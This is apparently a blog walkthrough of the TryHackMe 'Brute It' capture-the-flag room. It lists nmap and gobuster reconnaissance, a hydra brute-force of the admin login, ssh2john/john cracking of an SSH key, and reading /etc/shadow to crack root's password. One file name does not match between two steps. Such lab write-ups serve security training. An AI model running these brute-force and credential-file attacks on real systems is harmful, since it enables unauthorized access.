 ```yaml
---
layout: post
title: Walkthrough - Brute It
published: true
---
```


Learn how to brute, hash cracking and escalate privileges in this box!

[https://tryhackme.com/room/bruteit](https://tryhackme.com/room/bruteit)

* * *

## Search for open ports using nmap. How many ports are open?

- ``sudo nmap -Pn -sS -p- -T4 10.10.241.208 -vvv``

* * *

## What version of SSH is running?

- ``sudo nmap -sV -sT -sC -p22,80 10.10.241.208``

* * *

## What version of Apache is running?

- ``sudo nmap -sV -sT -sC -p22,80 10.10.241.208``

* * *

## Which Linux distribution is running?

- ``sudo nmap -sV -sT -sC -p22,80 10.10.241.208``

* * *

## Search for hidden directories on web server. What is the hidden directory?

- ``gobuster dir -u http://10.10.241.208 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 200 --no-error``

* * *

## What is the user:password of the admin panel?

- Source code: ``<!-- Hey john, if you do not remember, the username is admin -->``
- ``hydra -l admin -P /usr/share/seclists/Passwords/rockyou.txt -t 16 10.10.241.208 http-post-form -m "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"``

* * *

## Crack the RSA key you found. What is John's RSA Private Key passphrase?

- ``ssh2john id_rsa > josh.hash && john john.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt``

* * *

## user.txt

- cat user.txt

* * *

## Web flag

- you get this in the ``/admin/`` panel after login

* * *

## What is the root's password?

- sudo cat /etc/shadow
- copy to attacker and run john with rockyou

* * *

## root.txt

- cat /root/root.txt

* * * 